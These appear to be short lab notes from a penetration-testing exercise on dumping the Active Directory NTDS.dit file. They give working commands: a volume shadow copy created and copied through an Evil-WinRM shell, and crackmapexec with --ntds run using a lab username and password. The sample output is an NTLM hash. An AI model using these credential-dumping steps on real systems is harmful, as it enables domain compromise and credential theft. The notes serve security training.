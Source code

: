 

Manual Method
![[Pasted image 20240912135243.png]]
```shell-session
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:
```
![[Pasted image 20240912135309.png]]
```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

Automated Crackmapexec
```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```
jstapleton:1108:aad3b435b51404eeaad3b435b51404ee:92fd67fd2f49d0e83744aa82363f021b:::